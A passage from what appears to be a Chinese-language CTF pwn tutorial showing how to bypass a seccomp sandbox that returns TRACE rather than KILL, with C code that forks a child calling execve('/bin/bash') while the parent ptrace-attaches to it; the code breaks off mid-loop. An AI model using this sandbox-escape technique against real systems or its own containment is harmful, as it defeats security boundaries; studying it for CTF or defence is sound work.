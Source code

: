 ### fork ptrace
> 有时我们会遇到返回TRACE的沙箱，并且题目没有禁用fork和ptrace，这就给了我们绕过沙箱的手段
下面是一个示例程序，我们可以看到，题目对execve,execveat,open,openat,openat2都加了限制，但返回的不是KILL，而是TRACE;
于是我们就可以通过fork加ptrace的方式绕过沙箱，拿到shell
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/ptrace.h>
#include <seccomp.h>
#include <time.h>

struct timespec t = {1,0};

void sandbox()
{
    scmp_filter_ctx ctx;
    ctx = seccomp_init(SCMP_ACT_ALLOW);
    seccomp_rule_add(ctx,SCMP_ACT_TRACE(0),SCMP_SYS(execve),0);
    seccomp_rule_add(ctx,SCMP_ACT_TRACE(1),SCMP_SYS(execveat),0);
    seccomp_rule_add(ctx,SCMP_ACT_TRACE(2),SCMP_SYS(open),0);
    seccomp_rule_add(ctx,SCMP_ACT_TRACE(3),SCMP_SYS(openat),0);
    seccomp_rule_add(ctx,SCMP_ACT_TRACE(4),SCMP_SYS(openat2),0);
    seccomp_load(ctx);
}

int main()
{
    sandbox();

    // fork出子进程
    pid_t pid = syscall(SYS_fork);

    if(pid<0)
    {
        // fork错误直接退出
        syscall(SYS_write,STDOUT_FILENO,"fork error!\n",12);
        syscall(SYS_exit,0);
    }

    if(pid==0)
    {
        // 子进程
        // 不断执行sleep(1),printf("child execve\n"),execve("/bin/bash",0,0)
        while(1)
        {
            syscall(SYS_nanosleep,t,0);
            syscall(SYS_write,STDOUT_FILENO,"child execve\n",13);
            syscall(SYS_execve,"/bin/bash",0,0);
        }
    }
    else
    {
        // 父进程
        // 首先attach到子进程上
        syscall(SYS_ptrace,PTRACE_ATTACH,pid,0,0);
        syscall(SYS_write,STDOUT_FILENO,"father attach\n",14);
        while(1)
        {
            // 不断等待子进程改变状态，在本题即为等待子进程触发seccomp然后stop
            syscall(SYS_wait4,pid,0,0,0);
            // 设置跟踪seccomp,并且在子进程触发seccomp时stop子进程
```